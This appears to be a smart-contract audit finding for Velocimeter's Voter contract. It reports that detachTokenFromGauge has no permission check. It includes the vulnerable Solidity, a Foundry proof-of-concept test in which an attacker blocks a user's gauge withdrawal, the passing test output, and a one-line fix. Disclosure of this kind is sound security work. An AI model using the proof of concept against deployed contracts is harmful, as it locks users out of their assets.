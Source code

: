 Generous Malachite Rook

High

# detachTokenFromGauge  lacks permission check which prevents users from withdrawing their asset

## Summary
the [Voter::detachTokenFromGauge](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Voter.sol#L444-L447)  lacks permission check which prevents users from withdrawing their asset . 

## Vulnerability Detail
From code we can see [code](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Voter.sol#L444-L447)
```solidity
    function detachTokenFromGauge(uint tokenId, address account) external { //@audit lack of permission check?
        if (tokenId > 0) IVotingEscrow(_ve).detach(tokenId);
        emit Detach(account, msg.sender, tokenId);
    }
```
the `detachTokenFromGauge` function is lack of permission check , attacker can invoke this function to detach any tokend from gauge.

User invoke `detachTokenFromGauge` when withdraw assets from gauge if tokenId is setted.  [code](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/GaugeV4.sol#L513-L555)
```solidity
  if (tokenId > 0) {
      require(tokenId == tokenIds[msg.sender]);
      tokenIds[msg.sender] = 0;
      IVoter(voter).detachTokenFromGauge(tokenId, msg.sender);    <@
  } else {
      tokenId = tokenIds[msg.sender];
  }
```
However if attacker invoke `detachTokenFromGauge` before user can lead to `panic: arithmetic underflow or overflow` which prevents users from withdrawing their asset .
test
```solidity
    function testUserDepositAndWithdrawFromGauge() public {
        address alice = makeAddr("alice");
        address attacker = makeAddr("attacker");

        vm.startPrank(address(owner));
        flowDaiPair.transfer(alice, 1e7);
        vm.stopPrank();

        vm.prank(alice);
        flowDaiPair.approve(address(gauge),type(uint).max);
        vm.prank(alice);
        flowDaiPair.approve(address(escrow),type(uint).max);

        vm.prank(alice);
        uint256 tokenId = escrow.create_lock(1e6,2 weeks);

        //user stake token
        vm.prank(alice);
        gauge.deposit(1e6,tokenId);

        vm.prank(attacker);
        voter.detachTokenFromGauge(tokenId,alice);

        vm.prank(alice);
        vm.expectRevert(stdError.arithmeticError);
        gauge.withdrawAll();
    }
```
out:
```shell
Ran 1 test for test/GaugeV4.t.sol:GaugeV4Test
[PASS] testUserDepositAndWithdrawFromGauge() (gas: 820499)
Logs:
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 7.82ms (760.63µs CPU time)
```


## Impact
prevents users from withdrawing their asset
## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Voter.sol#L444-L447

## Tool used

Manual Review

## Recommendation
```diff
@@ -442,6 +450,7 @@ contract Voter is IVoter {
     }
 
     function detachTokenFromGauge(uint tokenId, address account) external {
+        require(isGauge[msg.sender]);
         if (tokenId > 0) IVotingEscrow(_ve).detach(tokenId);
         emit Detach(account, msg.sender, tokenId);
     }
```
